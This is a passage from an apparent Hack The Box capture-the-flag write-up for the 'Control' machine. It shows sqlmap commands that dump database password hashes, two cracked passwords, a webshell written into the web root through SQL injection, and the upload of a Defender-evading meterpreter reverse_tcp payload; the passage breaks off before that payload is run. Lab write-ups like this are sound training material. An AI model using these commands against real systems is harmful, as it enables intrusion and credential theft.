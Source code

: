 Listing users with: `sqlmap -H "X-Forwarded-For: 192.168.4.28" -u "http://10.10.10.167/view_product.php" --data "productId=69" --random-agent --passwords`

```
[*] hector [1]:
    password hash: *0E178792E8FC304A2E3133D535D38CAF1DA3CD9D
[*] manager [1]:
    password hash: *CFE3EEE434B38CBF709AD67A4DCDEA476CBA7FDA
[*] root [1]:
    password hash: *0A4A5CAD344718DC418035A1F4D292BA603134D8
```

I'm able to crack the first two hashes:

![](/assets/images/htb-writeup-control/crackstation.png)


- `hector: l33th4x0rhector`
- `manager: l3tm3!n`

## RCE using webshell upload with SQLi

After messing with some of the sqlmap file-read and file-write options, I was able to write files to the upload directory with:

`sqlmap -u "http://control.htb/view_product.php" --data "productId=69" --file-write cmd.php --file-dest 'c:\inetpub\wwwroot\uploads\bobinette.php'`

So I've just uploaded a webshell to the box and can now run commands through PHP:

![](/assets/images/htb-writeup-control/webshell1.png)

Defender is running on this machine so my earlier attempst at uploading a meterpreter compiled EXE file failed and using the PHP meterpreter proved to be somewhat unstable. However I was able to generate an MSbuild XML `meterpreter/reverse_tcp` payload with GreatSCT and get a stable shell.

First, I'll upload the .xml file I've generated:

`sqlmap -u "http://control.htb/view_product.php" --data "productId=69" --file-write 9001.xml --file-dest 'c:\inetpub\wwwroot\uploads\9001.xml'`

Then compile and execute the payload using my webshell:
